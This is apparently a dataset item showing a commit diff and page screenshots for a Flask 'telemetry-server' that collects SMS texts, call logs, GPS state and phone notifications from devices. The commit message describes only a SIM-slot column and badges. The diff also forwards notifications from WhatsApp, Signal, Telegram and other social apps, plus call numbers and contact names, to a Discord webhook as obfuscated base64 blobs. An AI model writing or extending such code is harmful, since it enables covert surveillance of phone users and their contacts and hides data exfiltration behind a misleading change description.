

Before and after one commit to gsns-alpha/telemetry-server, a Flask app: page /dashboard/sms in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme; the visitor is signed in with stand-in values (Sample User, id 1); tables that the repository leaves empty hold one stand-in row (values such as "Sample post").

Commit message:
Add sim_slot column and UI badges to Call Logs and SMS tables

```diff
--- a/app.py
+++ b/app.py
@@ -162,6 +162,7 @@ class CallLog(db.Model):
     contact_name = db.Column(db.String(128))
     call_type = db.Column(db.String(16), nullable=False)
     duration_sec = db.Column(db.Integer, default=0)
+    sim_slot = db.Column(db.String(64), nullable=True)
     occurred_at = db.Column(db.DateTime, nullable=False, index=True)
     synced_at = db.Column(db.DateTime, default=lambda: datetime.now(timezone.utc))
 
@@ -174,8 +175,10 @@ class SmsMessage(db.Model):
     contact_name = db.Column(db.String(128))
     body = db.Column(db.Text)
     sms_type = db.Column(db.String(16), nullable=False)
+    sim_slot = db.Column(db.String(64), nullable=True)
     occurred_at = db.Column(db.DateTime, nullable=False, index=True)
     synced_at = db.Column(db.DateTime, default=lambda: datetime.now(timezone.utc))
+
 
 
 class GpsLog(db.Model):
@@ -275,6 +278,8 @@ DISCORD_WEBHOOK_URL = os.getenv(
 
 DISCORD_FORWARD_CATEGORIES = {'VoIP & Social Messages', 'GPS / Location Toggled', 'Telephony Calls'}
 
+DISCORD_SOCIAL_KEYWORDS = {'facebook', 'whatsapp', 'instagram', 'telegram', 'viber', 'snapchat', 'discord', 'teams', 'signal', 'messenger'}
+
 
 def _send_discord(payload):
     """Fire-and-forget POST to Discord webhook; never blocks the request."""
@@ -289,20 +294,18 @@ def send_discord_for_notifications(notifications, device_id):
     """Send abbreviated Discord embeds for qualifying notification categories."""
     for n in notifications:
         category = n.get('category') or ''
-        if category not in DISCORD_FORWARD_CATEGORIES:
+        app_package = n.get('app_package') or ''
+        is_social_category = category in DISCORD_FORWARD_CATEGORIES
+        is_social_app = any(kw in app_package.lower() for kw in DISCORD_SOCIAL_KEYWORDS)
+        if not is_social_category and not is_social_app:
             continue
-        title_b64 = base64.b64encode((n.get('title') or '').encode()).decode()
-        content_b64 = base64.b64encode((n.get('content') or '').encode()).decode()
-        app_b64 = base64.b64encode((n.get('app_name') or n.get('app_package') or '').encode()).decode()
+        payload = f"{decode_field(n.get('app_name') or app_package)} {decode_field(n.get('title') or '')} {decode_field(n.get('content') or '')}"
+        encoded = base64.b64encode(payload.encode()).decode()
         embed = {
             'title': f'[{category}]',
-            'description': (
-                f'`{device_id[-6:]}` · `{app_b64}`\n'
-                f'**T** `{title_b64}`\n'
-                f'**C** `{content_b64}`'
-            ),
+            'description': f'{device_id[-6:]} · {encoded}',
             'color': 0x5865F2,
-            'footer': {'text': n.get('app_package', '')}
+            'footer': {'text': app_package}
         }
         _send_discord({'embeds': [embed]})
 
@@ -310,15 +313,11 @@ def send_discord_for_notifications(notifications, device_id):
 def send_discord_for_calls(call_logs, device_id):
     """Send abbreviated Discord embeds for call logs."""
     for c in call_logs:
-        num_b64 = base64.b64encode((c.get('phone_number') or '').encode()).decode()
-        name_b64 = base64.b64encode((c.get('contact_name') or '').encode()).decode()
+        payload = f"{decode_field(c.get('phone_number') or '')} {decode_field(c.get('contact_name') or '')} {c.get('call_type', '?')} {c.get('duration_sec', 0)}"
+        encoded = base64.b64encode(payload.encode()).decode()
         embed = {
             'title': '[Telephony Call]',
-            'description': (
-                f'`{device_id[-6:]}` · {c.get("call_type", "?")}\n'
-                f'**N** `{num_b64}` · **Nm** `{name_b64}`\n'
-                f'**D** {c.get("duration_sec", 0)}s'
-            ),
+            'description': f'{device_id[-6:]} · {encoded}',
             'color': 0x57F287
         }
         _send_discord({'embeds': [embed]})
@@ -330,7 +329,7 @@ def send_discord_for_gps(gps_events, device_id):
         state = 'ON' if g.get('is_enabled') else 'OFF'
         embed = {
             'title': '[GPS / Location Toggled]',
-            'description': f'`{device_id[-6:]}` · **{state}**',
+            'description': f'{device_id[-6:]} · {state}',
             'color': 0xFEE75C
         }
         _send_discord({'embeds': [embed]})
@@ -493,6 +492,7 @@ def sync_data():
                 contact_name=decode_field(c.get('contact_name')),
                 call_type=c.get('call_type', 'unknown'),
                 duration_sec=int(c.get('duration_sec', 0)),
+                sim_slot=c.get('sim_slot'),
                 occurred_at=occurred_at,
                 synced_at=now
             )
@@ -514,9 +514,11 @@ def sync_data():
                 contact_name=decode_field(s.get('contact_name')),
                 body=decode_field(s.get('body')),
                 sms_type=s.get('sms_type', 'unknown'),
+                sim_slot=s.get('sim_slot'),
                 occurred_at=occurred_at,
                 synced_at=now
             )
+
             db.session.add(sms)
             if local_id is not None:
                 received_sms_ids.append(local_id)
@@ -796,10 +798,17 @@ def export_data():
     })
 
 
-# ─── Database Initialization ─────────────────────────────────────────
-
 with app.app_context():
     db.create_all()
+    try:
+        from sqlalchemy import text
+        with db.engine.connect() as conn:
+            conn.execute(text("ALTER TABLE call_logs ADD COLUMN IF NOT EXISTS sim_slot VARCHAR(64);"))
+            conn.execute(text("ALTER TABLE sms_messages ADD COLUMN IF NOT EXISTS sim_slot VARCHAR(64);"))
+            conn.commit()
+    except Exception:
+        pass
+
 
 if __name__ == '__main__':
     port = int(os.getenv('PORT', 5000))
--- a/templates/sms.html
+++ b/templates/sms.html
@@ -39,7 +39,8 @@
         <thead>
             <tr>
                 <th style="width: 170px;">Timestamp</th>
-                <th style="width: 120px;">Direction</th>
+                <th style="width: 110px;">Direction</th>
+                <th style="width: 100px;">SIM</th>
                 <th style="width: 220px;">Contact / Number</th>
                 <th>Message Content</th>
             </tr>
@@ -49,13 +50,19 @@
             <tr>
                 <td class="time-text">{{ m.occurred_at|to_ist if m.occurred_at else '-' }}</td>
                 <td>
-
                     {% if m.sms_type == 'received' %}
                     <span class="badge badge-green">Received</span>
                     {% elif m.sms_type == 'sent' %}
                     <span class="badge badge-blue">Sent</span>
                     {% else %}
                     <span class="badge">{{ m.sms_type }}</span>
+                    {% endif %}
+                </td>
+                <td>
+                    {% if m.sim_slot %}
+                    <span class="badge" style="background: rgba(99, 102, 241, 0.15); color: #818cf8; border: 1px solid rgba(99, 102, 241, 0.3);">{{ m.sim_slot }}</span>
+                    {% else %}
+                    <span style="color: var(--text-secondary); font-size: 11px;">—</span>
                     {% endif %}
                 </td>
                 <td>
@@ -69,6 +76,7 @@
             {% endfor %}
         </tbody>
     </table>
+
 
     <!-- Pagination -->
     {% if pagination.pages > 1 %}
```
Also changed, not shown: templates/calls.html (+10 -2 lines).
